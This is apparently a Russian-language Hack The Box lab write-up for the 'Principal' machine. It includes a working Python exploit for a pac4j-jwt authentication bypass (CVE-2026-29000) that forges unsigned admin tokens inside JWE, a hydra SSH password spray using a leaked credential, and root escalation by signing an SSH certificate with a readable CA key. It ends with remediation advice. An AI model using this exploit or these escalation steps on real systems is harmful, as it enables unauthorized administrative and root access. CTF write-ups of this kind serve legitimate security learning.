

# Principal

> **Дата:** 25.10.2026  
> **Целевой IP:** `10.129.244.220`  
> **Атакующий IP:** `10.10.17.178`  
> **Сложность:** Medium  
> **Платформа:** Hack The Box

В ходе выполнения лабораторной работы по тестированию на проникновение (HTB Principal) была обнаружена и успешно эксплуатирована цепочка уязвимостей, приведшая к полному компрометированию системы. Основной вектор атаки — обход аутентификации в Java-библиотеке **pac4j-jwt** (**CVE-2026-29000**), позволивший подделать зашифрованный JWT-токен и получить доступ к административной панели. Через панель были извлечены учётные данные пользователя `svc-deploy` и получен шелл по SSH. Повышение привилегий до **root** выполнено через злоупотребление доверием к SSH-сертификатам (Certificate Authority) — приватный ключ CA был доступен пользователю `svc-deploy`.

**Ключевые уязвимости:**
- **CVE-2026-29000** — Authentication Bypass в pac4j-jwt (< 4.5.9, 5.7.9, 6.3.3)
- **Небезопасная конфигурация SSH** — Приватный ключ CA доступен непривилегированному пользователю

---

## Разведка и анализ поверхности атаки

Первоначальное сканирование выявило два открытых порта: SSH (22) и HTTP-прокси (8080). Анализ заголовков веб-сервера показал использование Java-фреймворка **pac4j-jwt версии 6.0.3**, что указало на потенциальную уязвимость обхода аутентификации.

```bash
nmap -sV -sC 10.129.244.220 
```



_Сканирование портов и определение версий сервисов на целевой машине._

При переходе по адресу `http://10.129.244.220:8080` происходит редирект на страницу авторизации `/login`.



_Страница входа в приложение "Principal Internal Platform"._

### Анализ клиентской части

В ходе изучения исходного кода (вкладка Network в DevTools) был найден файл `app.js`, содержащий критически важную информацию:

- **JWKS-эндпоинт** — `/api/auth/jwks`, публичный RSA-ключ для шифрования JWT. Основа эксплойта.
    
- **Схема claims** — `sub`, `role` (`ROLE_ADMIN`/`ROLE_MANAGER`/`ROLE_USER`), `iss: "principal-platform"`, `iat`, `exp`. Для админа ставим `role: "ROLE_ADMIN"`.
    
- **Хранение токена** — `sessionStorage['auth_token']`, отправляется как `Authorization: Bearer <token>`.
    
- **Роли и навигация** — `ROLE_ADMIN` открывает **Users** (`/api/users`) и **Settings** (`/api/settings`). Там креды и путь к SSH CA.
    
- **Подтверждение уязвимости** — токен JWE-зашифрован, внутренний JWT подписан RS256, но клиент полагается на серверную проверку → уязвим к CVE-2026-29000 (plain JWT без подписи внутри JWE проходит).

## Эксплуатация: Обход аутентификации (CVE-2026-29000)

Уязвимость в pac4j-jwt заключается в том, что при расшифровке JWE (JWT Encryption) библиотека проверяет внутреннюю подпись JWT только в том случае, если она присутствует. Если передать "пустой" JWT (с алгоритмом `none` и без подписи) внутри валидного JWE, проверка подписи полностью пропускается, и токен считается валидным.

### Получение публичного ключа

```bash
curl -s http://10.129.244.220:8080/api/auth/jwks
```



_Извлечение публичного RSA-ключа, необходимого для шифрования поддельного токена._

### Написание эксплойта

Для генерации поддельного токена был написан Python-скрипт, использующий библиотеки `jwcrypto` и `requests`. Скрипт формирует JWT с ролью `ROLE_ADMIN` и пустой подписью, а затем шифрует его публичным ключом сервера.

```python
#!/usr/bin/env python3
import base64
import json
import sys
import requests
from jwcrypto import jwk, jwe
from datetime import datetime, timezone, timedelta

# --- Настройки ---
TARGET = "10.129.244.220"
PORT = 8080

def create_jwt(sub, role):
    if role not in ["ROLE_ADMIN", "ROLE_MANAGER", "ROLE_USER"]:
        raise ValueError("Invalid Role")

    now = datetime.now(timezone.utc)
    claims = {
        "sub": sub,
        "role": role,
        "iss": "principal-platform",
        "iat": int(now.timestamp()),
        "exp": int((now + timedelta(hours=24)).timestamp()),
    }

    # Создаем пустой (plain) JWT без подписи
    header = {"alg": "none"}

    def base64_url(data: bytes) -> str:
        return base64.urlsafe_b64encode(data).decode().rstrip("=")

    header_b64 = base64_url(json.dumps(header, separators=(",", ":")).encode())
    payload_b64 = base64_url(json.dumps(claims, separators=(",", ":")).encode())
    
    # Обрати внимание на точку в конце - это пустая подпись
    jwt = f"{header_b64}.{payload_b64}."
    print(f'[+] Создан plain JWT для роли {role} (пользователь: {sub})')
    return jwt

def main():
    print(f"[*] Атакуем {TARGET}:{PORT}")
    
    # 1. Получаем JWKS с целевого сервера
    try:
        resp = requests.get(f'http://{TARGET}:{PORT}/api/auth/jwks', timeout=5)
        resp.raise_for_status()
        jwks = resp.json()
    except Exception as e:
        print(f"[-] Ошибка при получении JWKS: {e}")
        sys.exit(1)

    if not jwks.get("keys"):
        print("[-] Не удалось найти ключи в JWKS")
        sys.exit(1)

    # Извлекаем RSA ключ
    rsa_key = jwk.JWK(**[k for k in jwks["keys"] if k["kty"] == "RSA"][0])
    print(f"[+] Получен RSA ключ: kid={rsa_key.get('kid', 'n/a')}")

    # 2. Генерируем plain JWT с ролью ADMIN
    jwt = create_jwt(sub='admin', role='ROLE_ADMIN')

    # 3. Шифруем JWT с помощью публичного ключа (JWE)
    token = jwe.JWE(
        plaintext=jwt.encode(),
        protected=json.dumps({"alg": "RSA-OAEP-256", "enc": "A256GCM"}),
        recipient=rsa_key,
    )
    forged = token.serialize(compact=True)

    print("-" * 60)
    print(forged)
    print("-" * 60)


if __name__ == "__main__":
    main()
```

Установка зависимостей и запуск:

```python
pip3 install jwcrypto requests
python3 exploit.py
```



_Генерация поддельного JWE-токена с правами администратора._

### Доступ к административной панели

Полученный токен был вставлен в `sessionStorage` браузера через консоль разработчика:

```bash
sessionStorage.setItem('auth_token', 'Токен')
```



_Внедрение поддельного токена. После обновления страницы предоставляется доступ к панели администратора._

## Пост-эксплуатация и извлечение данных

В панели администратора были обнаружены две критические единицы информации:

**Users:** Список пользователей системы.



**Settings:** Конфигурация безопасности.



- **Пароль:** `encryptionKey: D3pl0y_$$H_Now42!`
    
- **Путь к SSH CA:** `sshCaPath: /opt/principal/ssh/`/

### Брутфорс SSH

С использованием списка пользователей и найденного пароля был выполнен брутфорс SSH:

```bash
hydra -L users.txt -p 'D3pl0y_$$H_Now42!' ssh://10.129.244.220
```



_Успешный подбор пароля для пользователя `svc-deploy`._

Подключение к целевой машине:

```bash
ssh svc-deploy@10.129.244.220
```

Ввод пароля `D3pl0y_$$H_Now42!` и чтение флага пользователя:

```
cat user.txt
```



**Флаг пользователя найден**
### Повышение привилегий (Root)

Проверка директории, указанной в настройках, подтвердила наличие приватного ключа CA:

```bash
ls -la /opt/principal/ssh
```



_Файлы `ca` (приватный ключ) и `ca.pub` (публичный ключ) доступны пользователю `svc-deploy`._

Поскольку сервер SSH настроен на доверие этому CA (`TrustedUserCAKeys`), любой ключ, подписанный им, будет принят. Был сгенерирован новый ключ и подписан с указанием principal `root`:

```bash
ssh-keygen -t ed25519 -f root-ssh -N ""
```



```bash
scp svc-deploy@10.129.244.220:/opt/principal/ssh/ca ./ca
```

```bash
sudo ssh-keygen -s ./ca -I hacker -n root root-ssh.pub
```



_Подписание публичного ключа приватным ключом CA с указанием пользователя `root`._

Подключение к системе с использованием подписанного сертификата:

```bash
ssh -i root-ssh root@10.129.244.220
```

Чтение финального флага:

```bash
cat root.txt
```



**Флаг root найден** 

## Рекомендации по устранению уязвимостей

- **CVE-2026-29000 (pac4j-jwt):** Обновить библиотеку до версий **4.5.9, 5.7.9, 6.3.3** или выше. Убедиться, что внутренняя подпись JWT проверяется всегда, независимо от наличия алгоритма `none`.
    
- **Компрометация учетных данных:** Не хранить чувствительные данные (пароли, ключи) в открытом виде в конфигурации веб-приложения. Использовать менеджеры секретов.
    
- **Небезопасная конфигурация SSH:** Ограничить доступ к приватному ключу CA (права `600`, владелец `root`). Не предоставлять пользователям возможность читать ключ. Использовать `AuthorizedPrincipalsFile` для строгого сопоставления principals с пользователями.